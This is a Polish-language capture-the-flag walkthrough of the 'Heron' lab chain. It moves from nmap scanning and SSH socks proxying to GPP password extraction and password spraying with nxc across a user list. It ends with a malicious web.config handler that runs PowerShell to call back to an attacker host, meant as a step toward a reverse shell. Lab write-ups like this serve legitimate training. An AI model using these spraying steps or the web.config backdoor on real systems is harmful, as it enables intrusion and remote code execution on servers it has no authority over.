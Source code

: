 # Heron
Windows, Medium, created by **xct**
```
nmap -Pn -v -p- --version-all -oA nmapFULL --max-rate 1000 10.10.215.53 10.10.215.54
sudo nmap -sU -Pn -A -F -v -oA nmaUDP --max-rate 1000 10.10.215.53 10.10.215.54
```

I was surprised that only ssh open, but then I remembered that these chains have scripts xd

![{62F15BCC-926F-4FA1-881E-16C953BF1EB0}](https://github.com/user-attachments/assets/693e4ad6-47d2-4f73-a01d-31f962d9a174)

![{512B1DA5-B3C1-430F-B8B7-3A0B11FF2D9E}](https://github.com/user-attachments/assets/7b2612ab-58a9-4616-abef-29ce5fdcaf73)

`wget https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/linpeas_fat.sh`

przejęcie `_local` to root od ręki

![{223C33F0-43DF-4868-9020-5B43A72970BF}](https://github.com/user-attachments/assets/dea022c4-45a7-44f7-97f4-44116d03e078)

tak losowe screeny wrzucam, które mogą się przydać.

![{73022E23-F40B-4AE6-8A04-F3757A46ACAF}](https://github.com/user-attachments/assets/028d4c18-cb47-4b41-a19e-b485bf97212f)

![{9A69E1AD-AC83-476A-8F35-BB928B9DCAC1}](https://github.com/user-attachments/assets/fc78c30d-f2fb-4799-b791-058039c61c2d)

![{D6F671A8-FDBC-47F9-A912-9E556B21DD09}](https://github.com/user-attachments/assets/89016ebb-ea0a-427d-8304-923a82460a58)

wrzucam socks proxy z ssh i jakiś nmapik

```
proxychains4 -q nmap -Pn -v 10.10.215.0/24 -oA nmapTOP1000
```

dziwna sprawa. PRzez proxychains nie mogę po ludzku skanować `10.10.215.53`.

![{E55C7310-8CC9-4FF0-8B7E-AEAA387539A4}](https://github.com/user-attachments/assets/77ca6258-f5e3-470a-96ab-f43cd72e3c70)

dziiiiiwne

![{E13FE1C2-EC53-4C4D-95C1-F203CE71E658}](https://github.com/user-attachments/assets/f1151f40-2796-4081-ac04-628f58f3296b)

![{3154A60D-742E-4E0C-B5D1-A1EA548A5BA6}](https://github.com/user-attachments/assets/66b14272-0f84-4d4d-9383-13b58347b8a2)

o trafiłem w port 80. To lecimy z nim

![{DC317D39-231D-4AB3-82C4-010D1F7750A4}](https://github.com/user-attachments/assets/b30b4100-d90c-4e12-9823-5fd5c9f0fb24)

![{C0129661-25EA-4717-A8DB-7714C21DAB0F}](https://github.com/user-attachments/assets/88dfa5df-4e51-42c3-9feb-1106432c12d4)

![{B6F9C402-FCBA-45E4-AD16-29AC205E25AB}](https://github.com/user-attachments/assets/d87c4417-69e6-411c-899c-f9c67e938117)

- jeszcze zanim to to od dzisiaj zawsze wpisuję `-M gpp_password` jak mam usera. Ciekawe rzeczy da się wyjąć (kolega polecił)

![{55BDA128-A025-4239-89FD-A7B0D2FC417C}](https://github.com/user-attachments/assets/b6478868-514c-4cfa-85f7-a5c94fda8eff)

- haslo nie pasuje do żadnego usera. Trzeba chyba sprawdzić na wszystkich z ldapa.

```
proxychains4 ldapdomaindump -u 'heron.vl\samuel.davies' -p <pass> 10.10.215.53
```

![{B16D5D6B-DBE8-4298-911E-A2AFBB26346E}](https://github.com/user-attachments/assets/d7eaea3f-659d-4450-922c-e249aa06d8ca)


- ale haslo nie pasuje do żadnego :/

DOBRA SIADŁO
```
proxychains4 -q nxc ldap 10.10.215.53 -u full_users_list -p '<pass from gpp>' --continue-on-success
proxychains4 -q nxc ssh 10.10.215.54 -u full_users_list_and_domain -p '<pass from gpp>' --continue-on-success 
```

siadło do usera `svc-web-accounting-d` na 10.10.215.53 po smb and user `svc-web-accounting-d` with ssh access on 10.10.215.54.
- btw jeżeli dalibyśmy print $1 w awk wyżej to zamiast  `svc-web-accounting-d` mielibyśmy usera  `svc-web-accounting-dev` i wtedy by nie siadło.

![{6A656547-7B63-42C5-8134-8536F6367167}](https://github.com/user-attachments/assets/98da0fbd-a98b-462d-a106-354f56fa038f)

och new share.

![{C9DECD92-BC73-414F-A53D-E5651B460B8B}](https://github.com/user-attachments/assets/b20c8021-1ab1-4b3e-8afa-6657548e1036)

o mmay write tam gdzie jest web.config
- wygląda jak proste nt authority system
- ale też nadpisywanie web.config może dużo rozwalić więc poszukam innych metod

trochę czytania `https://soroush.me/blog/tag/rce/`.

![{F55B628E-B2CD-4D5B-8BF1-1C6357B98BFA}](https://github.com/user-attachments/assets/1a869344-656c-4b85-b154-4c1026d40c81)

po prawie 2h udało mi się... je jebe.
```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="backdoor" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="powershell.exe" arguments='/c IWR http://10.8.4.124/' stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```
TO DZIAŁA. Czas przerobić to na rev shella





